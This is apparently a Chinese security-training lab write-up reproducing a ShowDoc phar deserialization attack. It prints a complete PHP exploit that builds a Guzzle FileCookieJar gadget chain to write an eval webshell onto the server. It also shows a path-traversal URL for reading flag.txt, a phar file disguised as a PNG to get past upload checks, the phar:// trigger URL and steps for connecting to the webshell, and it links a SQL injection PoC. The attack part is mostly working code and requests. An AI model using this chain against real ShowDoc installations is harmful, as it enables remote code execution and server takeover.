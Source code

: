 #  漏洞复现 | Showdoc反序列化   
知识土拨鼠  掌控安全EDU   2024-07-13 12:00  
  
码领资料  
  
获网安教程  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrpvQG1VKMy1AQ1oVvUSeZYhLRYCeiaa3KSFkibg5xRjLlkwfIe7loMVfGuINInDQTVa4BibicW0iaTsKw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
# 本文由掌控安全学院 - 知识土拨鼠 投稿  
  
**来****Track安全社区投稿~**  
  
**千元稿费！还有保底奖励~（https://bbs.zkaq.cn）**  
  
非常简单的一个靶场  
  
**靶场地址：https://hack.zkaq.cn/**  
  
打开靶场，弹出了这种登录框，这也成为了后面的一个坑点，记住这个登录框。![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcqp1c3jjcUj6T0B6Qbxwo51Ib7QWfCkSq3HCkUvujdjDrSLWQ9hzo2DAYziaQAwxedPzraaibvGaU3g/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcqp1c3jjcUj6T0B6Qbxwo51z9fJnPx7ASG8s4Ib0JskWZibj6Ra3yA0oBiazywSSHDialsiam9SxhpUPA/640?wx_fmt=png&from=appmsg "")  
看到了注册功能，showdoc有注册功能我们就不用尝试前台SQL注入了，直接注册就行（题目中的SQL注入多少有点滑稽..）。如果平时遇到了showdoc没有注册功能的，师傅们可以用p牛大佬的注入exphttps://github.com/vulhub/vulhub/blob/master/showdoc/3.2.5-sqli/poc.py接着打靶，登录后台，来到文件库![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcqp1c3jjcUj6T0B6Qbxwo51ia6nq5KZZmxEhM6gZQZKfxnCCYKPr5ib4hMJb2SNVT93Q60D3KJ9Xmlg/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcqp1c3jjcUj6T0B6Qbxwo51rjsfNyuRxmPQ1vKs1DjBneV8ouibVrdR0IU3FJxxOUkxPqyicdf7Q7fg/640?wx_fmt=png&from=appmsg "")  
尝试直接读取flag/server/index.php?s=/../../../../flag.txt直接爆出了绝对路径![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcqp1c3jjcUj6T0B6Qbxwo514KXBaMGxJcsOALmqA3ibPzMXCllibkIkIm5hRtfXWYLvQQlOG3R2GflA/640?wx_fmt=png&from=appmsg "")  
拿我们开始准备生成Phar的脚本，exp.php:  
```
<?php

namespace GuzzleHttp\Cookie{

    class SetCookie {
        private static $defaults = [
            'Name'     => null,
            'Value'    => null,
            'Domain'   => null,
            'Path'     => '/',
            'Max-Age'  => null,
            'Expires'  => null,
            'Secure'   => false,
            'Discard'  => false,
            'HttpOnly' => false
        ];
        function __construct()
{
            $this->data['Expires'] = '<?php @eval($_POST["cmd"]);?>';
            $this->data['Discard'] = 0;
        }
    }

    class CookieJar{
        private $cookies = [];
        private $strictMode;
        function __construct() {
            $this->cookies[] = new SetCookie();
        }
    }

    class FileCookieJar extends CookieJar {
        private $filename;
        private $storeSessionCookies;
        function __construct() {
            parent::__construct();
            $this->filename = "/var/www/html/server/3.php";
            $this->storeSessionCookies = true;
        }
    }
}

namespace{
    $pop = new \GuzzleHttp\Cookie\FileCookieJar();
    $phar = new \Phar("flag.phar");
    $phar->startBuffering();
    $phar->setStub('GIF89a'."__HALT_COMPILER();");
    $phar->setMetadata($pop);
    $phar->addFromString("test.txt", "test");
    $phar->stopBuffering();
}
```  
  
本地启动phpstudy，把exp.php在本地环境运行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcqp1c3jjcUj6T0B6Qbxwo51HwRfQTpicY2FiamCQ7zBAY1awl8yTQkzvK6iaWVMwJremSK5uIs9jBibEQ/640?wx_fmt=png&from=appmsg "")  
成功生成flag.php![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcqp1c3jjcUj6T0B6Qbxwo51E0H6boMXn0iccgUUTdmcXicdX6pmqqasJMG9IJvNW13JC35q9TibicNRfA/640?wx_fmt=png&from=appmsg "")  
注意：1.制作phar包时需要修改php.ini文件如下：  
  
[Phar]; http://php.net/phar.readonlyphar.readonly = Off; http://php.net/phar.require-hashphar.require_hash = Onphar.cache_list =  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcqp1c3jjcUj6T0B6Qbxwo51o0zH7pzDdYEeHWwt17TYbxviaJP9EAZ1LbQ9KyjFgxc8rNarNlwUssg/640?wx_fmt=png&from=appmsg "")  
然后把flag.phar文件改名为flah.png，会有文件上传检测上传后，点击查看获取到文件路径![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcqp1c3jjcUj6T0B6Qbxwo51Muhib8A9fVh0Sicm1kTW5APj8wIzJWo029lDpXDXXsqZXyeOCmjmqrAQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcqp1c3jjcUj6T0B6Qbxwo51IQnXwI0gz85hcPNcU1YtIkYkIciaOGIjVINz3DB0icBJ6SRgCUhawIRA/640?wx_fmt=png&from=appmsg "")  
然后访问/server/index.php?s=home/index/new_is_writeable&file=phar://../获取到的文件路径触发phar反序列化  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcqp1c3jjcUj6T0B6Qbxwo51ukbicQke1sE0hiaXr3kCy9xg8OrlW3xFbwvUAb27yp5WUOKvXelfsQlg/640?wx_fmt=png&from=appmsg "")  
成功触发页面是空白，然后访问我们写入马子的位置  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcqp1c3jjcUj6T0B6Qbxwo51Vu1LvVom0hSlq0kPPBElic1Gia8ia9JyxH6ibpjzPr2GNwL4f3Guf3ic0gw/640?wx_fmt=png&from=appmsg "")  
成功写入木马，但是这里有些人可能会连不上木马，像这样爆红  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcqp1c3jjcUj6T0B6Qbxwo51n6Ua3aolXy2Gj5HOqfeyt5vVAq66ibicVts8t4lq9lVkkrUunk2wEYdA/640?wx_fmt=png&from=appmsg "")  
原因就是最开始的访问网页的认证登录框，我们重新开一个浏览器对比一下登录和没有登录区别。没有登录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcqp1c3jjcUj6T0B6Qbxwo51a75NGOtdpdyCNRRWH6QDsPUgezNy1dsFauK8sd6naMfmx6a2GcRbpg/640?wx_fmt=png&from=appmsg "")  
登录成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcqp1c3jjcUj6T0B6Qbxwo51BaNuZKficBVbImyiaRRGUbveYQRfbAmAPp4AGPCJfdnSOT7BXyXAhVZg/640?wx_fmt=png&from=appmsg "")  
区别就是登录成功后带上了Authorization，所以我们在蚁剑中添加上这样的请求头，即可成功连接![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcqp1c3jjcUj6T0B6Qbxwo51hn9t7QXGQokl1gibfwZ9C0whw9qwykib2JHSkPCIDs1ZYILvkzhwE1QQ/640?wx_fmt=png&from=appmsg "")  
获取flag![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcqp1c3jjcUj6T0B6Qbxwo51KVaXnib1lvBxmN1KwFhgGTNuU6DlLbSSicXLmlSAuvFTqOR6MibapBAFw/640?wx_fmt=png&from=appmsg "")  
  
```
```  
  
  
  
